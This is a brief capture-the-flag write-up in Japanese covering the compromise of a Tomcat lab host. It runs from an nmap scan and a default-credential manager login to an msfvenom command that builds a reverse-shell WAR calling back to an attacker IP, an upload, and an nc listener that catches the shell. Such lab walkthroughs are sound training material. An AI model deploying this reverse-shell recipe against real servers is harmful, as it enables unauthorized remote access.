 # 1.Port Scan
ip=10.10.10.95

nmap -sC -sV -Pn $ip

![e48a06e5a49dd10ebdfcba2b5a970b96.png](../_resources/e48a06e5a49dd10ebdfcba2b5a970b96.png)

http://$ip:8080

![f62ad70d3dcb2eb92a5c54a5daf093cc.png](../_resources/f62ad70d3dcb2eb92a5c54a5daf093cc.png)

Username:admin
Password:password 

上記でログイン

ログインに失敗したがユーザネームとパスワードを取得

![454dcba5050a4c993c91d4cf6fd6bc9a.png](../_resources/454dcba5050a4c993c91d4cf6fd6bc9a.png)

各種ページにログイン成功

Sarver Status

![51ee760731f467c4ef813f8a9b172ebc.png](../_resources/51ee760731f467c4ef813f8a9b172ebc.png)

Tomcat Web Application Manager

![e7b3547f0928df3dfbc2d9c1b89b600c.png](../_resources/e7b3547f0928df3dfbc2d9c1b89b600c.png)

Host Manager はログイン失敗

![3bbc1a9f3d49c0a6e6f164222a6263b0.png](../_resources/3bbc1a9f3d49c0a6e6f164222a6263b0.png)

ヴェノムフレームワークでシェルコードを作成

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f war > shell.war`   

![58b892a5acc1c06fe079a3175ebdebd5.png](../_resources/58b892a5acc1c06fe079a3175ebdebd5.png)

作成したシェルをアップロード

![13211903b2461f56524051c8e43eca97.png](../_resources/13211903b2461f56524051c8e43eca97.png)

shellディレクトリを作成される

![0d9ea9d7d23bb4da440c56393ba90751.png](../_resources/0d9ea9d7d23bb4da440c56393ba90751.png)

ポートを解放する

`nc -lvnp 4444`

作成したshellディレクトリにアクセス

![e23114c44995267e495fdd88928c80b4.png](../_resources/e23114c44995267e495fdd88928c80b4.png)

tomcat サーバへ接続

![926732426503fcc3a3b7540196be3e58.png](../_resources/926732426503fcc3a3b7540196be3e58.png)

flagを発見

![300b720ec2cb2ca5d3c17317cdd27c44.png](../_resources/300b720ec2cb2ca5d3c17317cdd27c44.png)